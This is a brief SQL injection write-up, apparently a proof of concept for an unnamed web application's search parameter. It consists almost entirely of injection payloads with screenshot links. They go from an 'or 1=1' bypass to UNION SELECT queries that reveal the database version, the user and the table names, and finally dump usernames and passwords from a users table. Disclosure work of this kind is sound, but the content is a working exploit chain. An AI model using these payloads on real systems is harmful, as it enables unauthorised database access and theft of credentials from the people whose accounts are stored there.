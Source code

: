 
![image](https://user-images.githubusercontent.com/75846902/213949910-e16ed004-c048-43aa-9294-e9b617d35435.png)

payload

```%' or 1=1-- -```

detect to version

![image](https://user-images.githubusercontent.com/75846902/213949995-0a507d40-009c-49a7-b9e4-1756b5d3145e.png)

payload

```%' or 1=1 union select null,version()-- -```

detect to user

![image](https://user-images.githubusercontent.com/75846902/213950162-6dfe6380-7714-4866-bf7f-0d8a558c6e84.png)

payload

```%' or 1=1 union select null,user()-- -```

detect to table

![image](https://user-images.githubusercontent.com/75846902/213950250-3395d0c4-7424-47fa-a05d-035f1558b357.png)

payload

```%' or 1=1 union select null,table_name from information_schema.tables-- -```

detect to table_name 'user'

![image](https://user-images.githubusercontent.com/75846902/213950803-ab3c7679-e56e-4e0c-aa03-60a32836160d.png)

payload

```%' or 1=1 union select null,table_name from information_schema.tables where table_name like 'user%'-- -```


detect to columns from users_table

![image](https://user-images.githubusercontent.com/75846902/213950769-8a858d77-ab33-4ded-9667-55b56e0424db.png)

payload

```'%' or 1=1 union select null, concat(user,0x0a,password) from users-- -'```

